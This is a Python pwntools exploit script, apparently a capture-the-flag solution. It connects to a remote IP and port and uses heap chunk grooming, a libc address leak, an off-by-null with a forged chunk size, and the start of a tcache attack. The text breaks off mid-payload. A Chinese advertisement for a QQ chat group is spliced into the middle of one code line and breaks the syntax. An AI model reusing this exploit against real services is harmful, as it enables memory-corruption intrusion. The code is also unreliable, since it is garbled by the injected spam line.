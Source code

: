 ```
else:                            #remtoe
    sh = remote('114.215.144.240', 41699)

def Num(n):
    sh.sendline(str(n))

def Cmd(n):
    sh.recvuntil('>>> ')
    Num(n)

def Add(size, cont):
    Cmd(1)
    sh.recvuntil('Input len:\n')
    Num(size)
    sh.recvuntil('Input content:\n')
    sh.send(cont)

def Delete(idx):
    Cmd(2)
    sh.recvuntil('Input idx:\n')
    Num(idx)

def Play(idx):
    Cmd(3)
    sh.recvuntil('Input idx:\n')
    Num(idx)

#chunk arrange
for i in range(9):
    Add(0xF0, str(i)*0xF0)
Add(0x20, 'A'*0x20)
Add(0x18, 'ABCCBA'*0x4)
Add(0x18, 'C'*0x18)
Add(0xF0, 'D'*0xF0)+QQ君样：581499282一起吹水聊天
Add(0x20, 'gap')

#leak libc addr
for i in range(9):
    Delete(i)        #UB<=>(C7, C8)
for i in range(7):
    Add(0xF0, 'A'*0xF0)
Add(0xF0, 'A'*8)    #get chunk C7
Play(7)

sh.recvuntil('Chal:\n')
sh.recvuntil('A'*8)
libc.address = u64(sh.recv(6).ljust(8, '\x00'))-0x3ebe90
Log('libc.address')

#offset by null
for i in range(8):        #UB<=>(C7, C8)
    Delete(i)
Delete(11)
Play(10)

#forge fake size
Delete(10)
Add(0x18, flat(0, 0, 0x270))
Delete(12)                #UB<=>(C7, C8, ..., A, B, C, D)

#tcache attack
Delete(9)
exp = '\x00'*0x1F0
```